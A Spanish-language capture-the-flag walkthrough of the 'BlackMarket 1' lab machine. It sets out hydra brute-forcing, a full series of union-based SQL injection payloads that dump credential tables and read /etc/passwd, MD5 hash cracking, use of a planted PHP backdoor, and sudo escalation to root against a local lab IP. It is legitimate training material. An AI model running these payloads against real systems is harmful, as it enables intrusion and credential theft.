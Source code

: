 # BlackMarket 1

Tags: [[_bruteForce]],[[_sqli]],[[_cracking]],[[_crypto]],[[_webExploitation]],[[_infoLeakage]],[[_sudoersAbusing]]

## Primeros pasos
(Reconocimiento).

Primero le acomodamos bien para que agarre una IP (poner modo Bridged).

Organizamos TMUX.
Hacemos un escaneo en la red para determinar la IP de la máquina.
Mediante el OUI reconocemos la máquina que vamos a atacar.

Le hacemos un ping a la máquina. (Está activa o no).
Posible máquina Linux.
Creamos un directorio como la IP o nombre de la máquina.
Ponemos la IP de la máquina en un lugar visible.
Creamos los directorios de trabajo.

Empezamos el escaneo con NMAP.

Buscamos codename con launchpad, un posible Ubuntu Trusty.

Puertos abiertos.
21 - FTP
Versión 3.0.2

22 - SSH
Versión inferior a la 7.7

80 - HTTP
Mercado de Armas.

110 - POP3

143 - IMAP

993 - SSL (IMAPs)

995 - SSL  (POP3s)


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

21
Ataque de fuerza bruta. (Se contempla que no sabemos si el usuario es válido, y lo hice después de enumerar el HTTP y SSH).
<span style="color:#88c425">hydra -L users.txt -P dictionary.txt ftp://192.168.0.10 -t 20 </span>

Me encuentra credenciales: 
nicky:CIA
Probar en: FTP, SSH, Panel de Autenticación, SquirrelMail.


Enumeramos el FTP.
<span style="color:#88c425">get IMP.txt</span> :    para descargarlo.
Y obtenemos la Flag 2. Y una nota.

22
Probar el User Enumeration por si sirve o está parcheado. (Sí sirve).

Con la credencial que conseguimos del FTP, podemos usarlas, me conecta pero estoy restringido.
Podríamos tratar de colar un comando.
<span style="color:#88c425">sshpass -p 'CIA' ssh nicky@192.168.0.10 whoami</span>
Pero NAI. (A no ser que no vea el output, pero poniéndome en escucha y mandándome un Ping, igual nada (el comando entre comillas simples)).

80
No dice mucho whatweb, trabaja con php. Y es un login.
Fuzzeamos - Varias rutas.
SquirrelMail Versión 1.4.23

El código fuente no dice mucho, solo nos da la primera Flag.
Habla de Operation Treadstone. En una web que siempre sale, hay un staff, los cuales pueden ser nombres de usuarios.

Usuario válido (probado por el ssh):
nicky

Ya que hemos visto que hay data buena en esa web (del Operation Treadston), podríamos montarnos un diccionario con las palabras de dicha web.
Con cewl
<span style="color:#88c425">cewl -w dictionary.txt https://bourne.fandom.com/wiki/Operation_Treadstone</span>
Podríamos ponerle un <span style="color:#ecacb6">-d 0</span> para que no lo haga tan a profundidad.

En el Panel de Autenticación no sirve la credencial.
En el SquirrelMail aparece algo acerca del IMAP, de conexión dropeada (con otras credenciales no sale).


En este punto podríamos, a partir de la nota que conseguimos, ir probando rutas.
Es probar y probar hasta encontrar /vworkshop
Hay múltiples funciones, login, register, etc.
Analizar todo, no olvides el código fuente.

En la parte de "Spare Parts", en la URL se ve un parámetro id que va cambiando dependiendo del artículo.
Al cambiarlo me deja, pero si no existe el artículo, no me pone nada.
Podríamos pensar en fuerza bruta, SQLInjection.

Cuando le agrego comilla no se ve nada, pero si agrego comilla y comento el resto de la query se ve normal.
<span style="color:#ecacb6">1'or sleep(5)-- -</span> :    se tensó, funciona con un "and" porque el producto 1 existe. Es vulnerable.

Podríamos acontecer un error.

Ordenar los datos basándonos en la centésima columna.
<span style="color:#ecacb6">1'order by 100-- -</span> :    ir bajando.
Con 7 se ve, más ya no.
Apliquemos una selección.
<span style="color:#ecacb6">1' union select 1,2,3,4,5,6,7-- -</span> :    para añadir una nueva fila con varios campos, y poniendo los números como valor identificador a través del cual aprovecharnos y obtener los datos que interesan.

Si pongo -<span style="color:#ecacb6">1'</span> y lo demás, <span style="color:#07b4f2">no es válido</span>.
Pero pone valores. Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,database(),5,6,7-- -</span> :    en un campo veo el nombre de la Base de Datos en uso.

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(schema_name),5,6,7 from information_schema.schemata-- -</span>
Veo las bases de datos.

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(table_name),5,6,7 from information_schema.tables where table_schema='eworkshop'-- -</span>

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema='eworkshop' and table_name='employee'-- -</span>
Puedo ver las columnas de la tabla employee.

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(lname,0x3a,loginid,0x3a,password,0x3a,emailid),5,6,7 from employee-- -</span>

<span style="color:#07b4f2">Man:admin:IamNoob:admin@admin.com</span>
Puedo ver la data.

Probamos cargar un archivo local de la máquina y sí lo hace.

Podríamos pensar en meter un archivo.
<span style="color:#ecacb6">-1' union select 1,2,3,"test",5,6,7 into outfile "/var/www/html/prueba.txt"</span>
Lo vemos en la web, pero nada.

Con el /etc/passwd confirmamos otros usuarios:
nicky (ya sabíamos).
dimitri
jboourne
No tienen clave privada.

Hacemos lo mismo con las Bases de Datos interesantes.
DB BlackMarket.
Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(name,":",information),5,6,7 from BlackMarket.flag-- -</span> :    puedo ver la flag.
Obtenemos la tercera Flag.

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema='BlackMarket' and table_name='user'-- -</span>

Si hago
<span style="color:#ecacb6">-1' union select 1,2,3,group_concat(userid,0x3a,username,0x3a,password,0x3a,access),5,6,7 from BlackMarket.user-- -</span> :    veo cositas.
Tiene usuarios y hashes, en md5 por su largo de 32.
Los copiamos y los intentamos romper en hashes.com

De tres usuarios obtuve credenciales.
Las probamos.
En el Panel de Autenticación sí funcionó la de admin, nos deja entrar y nos da la cuarta Flag con otra información, hay que prestarle atención.
Hay una imagen bastante bonita, podríamos pensar en Esteganografía.

Pero antes, enumerar.
Hay un campo editar usuario, subir foto.

En el SquirrelMail pasa lo mismo que con nicky:CIA
Pero con las de jbourne:????? me deja entrar.
Toca enumerar.
Hay un email con la quinta Flag, dice que todo está encriptado.
Y en el From del mail, vemos una ruta pero no parece mucho.

Hay un mensaje cifrado. Podemos usar quipquip en internet. Le pasamos el texto cifrado y nos devuelve el texto bien.
Habla de un backdoor en <span style="color:#ecacb6">/kgbbackdoor/PassPass.jpg</span>
La probamos en /vworkshop y hay una imagen. Podríamos pensar en esteganografía.
Pero antes podríamos fuzzear por algún parámetro.
O fuzzear por archivo php sobre /kgbbackdoor
Hay un /backdoor.php
El cual parece que "manda" un not found, pero hay un campo de entrada pero no hace nada o está protegido con contraseña. La cual puede estar incrustada en la imagen del backdoor, cuidao.

Con strings veo que hay un Pass = 5215565757312090656
Puede estar en decimal, tratemos de convertirlo.
Primero a hexadecimal y luego el proceso inverso para ver si hay algo.

Lo pasamos a hexadecimal y luego a text y nos da "HailKGB".

Lo ocupamos en el backdoor.php y entramos.
Enumerar. Hay campo de una subida de archivo.
Se ve la sexta Flag, que es tiempo de Root.

Ganamos acceso a la máquina.

110

143

993

995

## Escalada

Una vez ganamos acceso al sistema, toca elevar privilegios.

Tratamiento de la TTY.
Y vemos que hay dos interfaces de red pero no se ocupa.

Enumerar todo.
Hay un archivo secreto en /home
Con algo que parece una contraseña, la ponemos bien como el nombre del usuario y sí entro.

Hay cositas en el dir de dimitri pero es lo del mail.
Esto en el grupo sudo, ojito.
<span style="color:#88c425">sudo -l</span> puedo ejecutar lo que quiera como quien quiera.
<span style="color:#88c425">sudo /bin/bash -p</span>
O <span style="color:#88c425">sudo su</span> y pongo la contraseña.

Y pa deeeeentro.

